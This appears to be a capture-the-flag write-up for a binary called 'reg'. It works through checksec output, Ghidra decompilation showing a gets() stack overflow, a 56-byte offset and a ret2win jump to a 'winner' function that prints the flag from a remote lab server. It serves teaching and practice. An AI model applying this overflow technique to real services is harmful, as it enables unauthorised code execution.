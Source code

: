 # reg

Lets start with some basic file enumeration:

```s
$ file reg
reg: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=134349a67c90466b7ce51c67c21834272e92bdbf, for GNU/Linux 3.2.0, not stripped
$ pwn checksec reg                                            
[*] 'reg'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Looks like the NX bit is enabled. If we want to get code execution, we'll have to perform a ret2libc.

Lets look at the `main` function in Ghidra:

```c

undefined8 main(void)

{
  run();
  return 0;
}


```

Nothing exciting except for calling `run`:

```c

void run(void)

{
  char target [48];
  
  initialize();
  printf("Enter your name : ");
  gets(target);
  puts("Registered!");
  return;
}


```

There is a buffer overflow occuring in the `gets` call. There is a function `winner`:

```c

void winner(void)

{
  char local_418 [1032];
  FILE *local_10;
  
  puts("Congratulations!");
  local_10 = fopen("flag.txt","r");
  fgets(local_418,0x400,local_10);
  puts(local_418);
  fclose(local_10);
  return;
}


```

Which means this a ret2win challenge. 

First, find the offset to the return address:

```s
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 56 (little-endian search) likely
[+] Found at offset 49 (big-endian search) 
gef➤ 
```

The offset from the buffer is 56 bytes.

Next, determine the address of `winner`:

```s
$ objdump -t reg | grep "winner"
0000000000401206 g     F .text  0000000000000064              winner
```

The address is `0x401206`

Putting everything together will get the flag:

```s
$ ./exploit.py REMOTE
[+] Opening connection to 138.68.155.81 on port 31075: Done
[*] flag: HTB{...}
[*] Closed connection to 138.68.155.81 port 31075
```